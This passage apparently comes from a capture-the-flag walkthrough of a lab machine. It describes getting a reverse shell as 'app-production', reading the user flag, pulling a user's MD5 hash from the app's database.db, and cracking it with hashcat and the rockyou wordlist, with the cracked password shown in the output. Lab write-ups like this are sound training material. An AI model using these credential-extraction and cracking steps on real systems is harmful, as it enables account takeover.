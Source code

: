 You can probably also use the `os.system` function to run the reverse-shell.

Using this, we got a reverse-shell as "app-production" :
```bash
$ whoami
app-production
```

## Flag user.txt

By now, we can directly get the user.txt flag :
```bash
$ cat ~/user.txt
...
```

## Flag root.txt

To find the root flag, we will have to search in the app folder, where a database.db file is available :
```bash
$ cd app/instance/
$ ls
database.db
```

By opening this file in the SQL Viewer Online website, we can select all the users and find the user Martin, which is also a user on the machine :
![](screenshot_7.png)

We can crack his password using hashcat :
```bash
$ hashcat -a 0 -m 0 martin_hash_pass /opt/rockyou.txt

...

Dictionary cache hit:
* Filename..: /opt/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster       
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 3de6f30c4a09c27fc71932bfc68474be
Time.Started.....: Tue Jul 22 05:37:50 2025 (1 sec)
Time.Estimated...: Tue Jul 22 05:37:51 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  8025.0 kH/s (0.29ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5234688/14344384 (36.49%)
Rejected.........: 0/5234688 (0.00%)
```